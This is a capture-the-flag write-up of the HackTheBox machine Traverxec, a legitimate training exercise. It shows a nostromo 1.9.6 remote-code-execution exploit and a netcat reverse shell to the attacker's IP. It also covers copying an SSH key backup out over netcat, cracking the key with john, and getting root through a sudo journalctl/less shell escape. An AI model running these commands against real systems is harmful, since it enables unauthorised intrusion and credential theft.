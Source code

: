 ```yaml
---
layout: post
title:  Traverxec
categories: hackthebox
tags: [hackthebox, linux, easy, nostromo, gtfobins]
lang: "en"
image:
    path: assets/images/hackthebox/traverxec/preview.webp
    width: 300
    height: 300
---
```


![Traverxec](../../../../assets/images/hackthebox/traverxec/traverxec.jpg)

## abstract

Traverxec is an easy box made by [@jkr](https://twitter.com/ATeamJKR). It contains a nhttpd webserver also known as nostromo. 
The privesc from low privilege shell to user shell is an easy cracking challenge for john and for the privesc to root we need
some knowledge from gtfobins about _journalctl_ and _less_.

## enumeration

### nmap
The first step is to enumerate all open ports and determine the running services that are reachable from outside.
If we enumerate over all ports in verbose mode it took several minutes to get the result. So at first we should make 
quick scan and take all open ports to scan the service behind them.

```bash
Nmap scan report for 10.10.10.165
Host is up (0.029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.39 seconds
```

As the scan result we have an open ssh port and on port 80 is a http server running called nostromo in version 1.9.6.

### website
If we take a look on the website we may find something interesting. 
![website](../../../../assets/images/hackthebox/traverxec/website.jpg)

The first interesting thing could be the name **David White**. Maybe gobuster find something valuable.

```bash
kali@kali:~$ gobuster dir -u http://10.10.10.165 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html | tee traverxec_gobuster.txt
```

Short answer: no.

I didn't know a web server called nostromo before. So the next obvious thing is to take some research for nostromo and a possible vulnerability for version 1.9.6.

Before I use google or something I use _searchsploit_ directly from shell, maybe the exploitdb know something.

```bash
Nostromo - Directory Traversal Remote Command Execution (Metasploit)    | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                  | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution    | exploits/linux/remote/35466.sh
```

What a lucky coincidence, nostromo in version 1.9.6 is vulnerable to a remote code execution. [exploitdb](https://www.exploit-db.com/exploits/47837)

## exploitation

The exploitation seems to be easy with the found python script. So let's create a reverse shell.

On the attacker machine:

```bash
nc -nlvp 1337
```

Send payload:
```bash
kali@kali:~$ python 47837.py 10.10.10.165 80 'nc -e /bin/sh 10.10.14.37 1337'
```

Aaaaaand BINGO, to have a more convenient low priv shell, we should use python on the victim machine:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$
```

## userflag

Now we are on the victim machine. So let's take a look for valuable things. 

```bash
www-data@traverxec:/$ ls -l /home
ls -l /home
total 4
drwx--x--x 5 david david 4096 Apr 12 06:13 david 
```

The executive flag is set for others, very strange. 
Let's take a look further.

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

Nothing very useful on the first look. But let's read something about nostromo. If we are the user www-data and we are running this nostromo server. We need to have access to those homedirs.
Maybe let's try to access these in a kind of blind mode.

```bash
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david/public_www
ls -l /home/david/public_www
total 8
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david/public_www/protected-file-area 
total 4
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
```

It seems to work. So let's download these backup files.

```bash
On attacker machine:
kali@kali:~$ nc -l -p 1234 -q 1 > backup-ssh-identity-files.tgz < /dev/null

On victim machine:
nc 10.10.14.37 1234 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```

Now extract and we have access to an encrypted ssh private key from david (/path/to/folder/home/david/.ssh/id_rsa).

The next step is to try john to crack this thing, but first it have to be converted in the right format.

```bash
# Convert ssh private key to john compatible hash
kali@kali:~$ python3 /usr/share/john/ssh2john id_rsa > key.hash

# attack the hash
kali@kali:~$ john --format=SSH -w /usr/share/wordlists/rockyou.txt

Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:00 DONE (2020-04-12 10:25) 20.00g/s 70920p/s 70920c/s 70920C/s paagal..sss
Session completed

kali@kali:~$ john --show key.hash
id_rsa:hunter

1 password hash cracked, 0 left
```

Now we can login as david@traverxec.htb and take the user.txt.

```bash
kali@kali:~$ ssh -i ./home/david/.ssh/id_rsa david@traverxec.htb
The authenticity of host 'traverxec.htb (traverxec.htb)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'traverxec.htb' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sun Apr 12 07:21:40 2020 from 10.10.14.21
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ wc user.txt 
 1  1 33 user.txt
```

## privilege escalation

At this point we have a valid ssh login to david@traverxec.htb. So let's find the privesc and root this machine.

```bash
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls
new  server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It seems to be that david can gain root privileges if he use journalctl. So let's have a look at [gtfobins](https://gtfobins.github.io/gtfobins/journalctl/).

_Journalctl_ uses _less_ as default and this can be used to create a shell with higher permissions.

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service 
!/bin/bash
root@traverxec:/home/david/bin#
root@traverxec: wc /root/root.txt 
 1  1 33 user.txt
```

And that's it, system owned.